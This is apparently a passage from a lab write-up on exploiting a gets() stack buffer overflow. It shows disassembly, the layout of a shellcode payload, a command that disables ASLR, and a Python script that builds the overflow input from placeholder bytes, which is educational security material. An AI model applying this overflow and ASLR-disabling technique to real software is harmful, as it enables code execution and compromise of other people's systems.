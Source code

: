 ```nasm
|           0x08048488      81ec88000000   sub esp, 0x88
|           0x0804848e      83ec0c         sub esp, 0xc
|           0x08048491      8d8578ffffff   lea eax, [var_88h]
|           0x08048497      50             push eax
|           0x08048498      e823feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0804849d      83c410         add esp, 0x10
|           0x080484a0      90             nop
|           0x080484a1      c9             leave
\           0x080484a2      c3             ret
```

The infamous `gets` call is once again used. This level is all about shellcoding and that's why the buffer has a size of 136 bytes.

The way of shellcoding is pretty simple. The contents of the payload are listed below:
1. **NOP sled**, so that there is some flexibility as to what the value of the return address should be.
1. **Shellcode**, considering that this is our objective.
1. **NOP padding**.
1. **Return address**.

Something noteworthy is that in the case of using the deb package, instead of the virtual machines, ASLR needs to be disabled manually.

```shell
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To overwrite the return address, the input needs to have 136 bytes to fill the buffer, 4 more bytes to override the previous stack frame's pointer and, lastly, 4 more bytes to overwrite the return address.

## Exploit

```python
#!/usr/bin/env python3
import os

nop_sled = b'\x4e'*80
shellcode = b'\x53'*35
nop_padding = b'\x50'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x52'*4

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
```

```shell
$ ./theScript.py > pattern
```

```shell
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
```
